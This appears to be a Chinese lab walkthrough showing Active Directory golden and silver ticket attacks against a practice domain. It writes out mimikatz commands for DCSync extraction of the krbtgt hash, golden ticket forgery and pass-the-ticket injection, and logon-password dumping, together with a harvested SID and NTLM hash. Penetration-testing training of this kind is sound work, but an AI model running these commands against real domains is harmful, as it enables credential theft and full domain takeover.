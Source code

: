 这里是靶场环境  
  
环境：192.168.10.10 域控DC 域：Starseaseclab.com 操作系统：win-server2012R2  
  
域内主机：192.168.10.14 操作系统：win7  
  
使用条件  
- • 域管SID  
  
- • 域名  
  
- • 域控KRBTGT账号的HASHntlm(hash)  
  
> whoami /all  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFib0xlcMCE2tkK7PaXabSSm3tbVxoZhgUa9DbpGahtY2uOJCp8IsnJTQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
> lsadump::dcsync /domain:starseaseclab.com /user:krbtgt  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFBtzwQSldUz2FM2DIGHrMP2ZcWLicVBAibZSBW99MQgyic4QJKPOEE3avw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
  
sid:S-1-5-21-1719736279-3906200060-616816393  
  
htlm(hash):5e31f755b33b621bede0946b044908e4  
  
domian:starseaseclab.com  
  
域内主机win-7  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFeY9aB6icy383Sxujy3kQ7v73zoEbsvBPrhSn4kY3IlbiariaIHS3htrIw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
```
privilege::debugkerberos::purge  //清空票据防止缓存影响Kerberos::golden /user:administrator /domain:starseaseclab.com /sid:S-1-5-21-1719736279-3906200060-616816393 /krbtgt:5e31f755b33b621bede0946b044908e4  /ptt    //伪造金票注入内存
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFZcQ5e2Kc0t9JTAjwZcZ2GpxgYmM41AWpmS9ibh0cHKeYERDNniatIiaHw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
#### 白银票据  
  
原理  
  
黄金票据是伪造TGT,在kerberos认证中忽略前两步，白银票据就是直接伪造ST  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFhCRQcoOMfjoFTAGEBV5DMoUnibsFianDfhOZsG2wmrToCopCsCctpXLw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
> whoami /all  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFg6ZhHbfUjZtnSr6ibkiczAm5u3rlQ6o1SjgAj44oic5EXZDP9BStqTqcA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
  
sid: S-1-5-21-1719736279-3906200060-616816393  
> sekurlsa::logonpasswords  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFibuj2G7ZYRvMalAcHQJJeRYEskicgocbN9Eo45EqhqqmfSHeYIOOZN9g/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  